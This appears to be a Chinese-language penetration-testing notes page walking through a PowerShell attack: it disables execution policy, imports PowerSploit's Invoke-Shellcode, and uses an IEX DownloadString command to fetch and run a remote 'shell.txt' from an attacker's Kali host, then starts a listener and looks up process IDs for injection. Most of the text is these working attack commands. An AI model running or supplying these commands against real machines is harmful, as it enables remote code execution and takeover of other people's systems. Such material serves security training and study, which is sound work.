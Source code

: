 修改执行策略  Set-ExecutionPolicy unrestricted)

导入命令执行模块
```
set-ExecutionPolicy unrestricted
Import-Module C:\install\rolan\tools\powershell\PowerSploit-master\CodeExecution\Invoke-Shellcode.ps1
```
![](./powershell_image/image-20201207124559650.png)

下载远程服务器powershell脚本

```
IEX功能类似与php中的eval，执行表达式的意思
这里是kali
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.169:9090/shell.txt') 
```



![](./powershell_image/image-20201207124820984.png)

kali开启监听

![](./powershell_image/image-20201207125335182.png)

查看进程编号

tasklist

![](./powershell_image/image-20201207125434266.png)
